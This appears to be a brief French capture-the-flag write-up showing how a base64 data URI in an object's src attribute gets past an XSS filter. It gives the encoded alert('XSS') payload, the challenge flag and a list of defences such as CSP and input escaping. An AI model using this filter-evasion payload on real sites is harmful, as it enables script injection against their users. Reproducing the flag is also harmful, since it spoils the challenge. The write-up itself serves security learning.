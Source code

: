 https://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
https://developer.mozilla.org/fr/docs/Web/HTTP/Guides/CSP

Dans l'object : 
data:text/html;base64 PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K

Les URL sont de la forme: données : [<type de média>][base64],<données> donc on teste dans src :
src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K

The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

Comment l'eviter: 
- Whitelist pour les url sures, afin d'eviter des mauvaises sources pour les objets chargees.
- iframe pour du contenu externe
- entrees utilisateurs doivent etre echappees
- CSP (content security policy) pour les balises object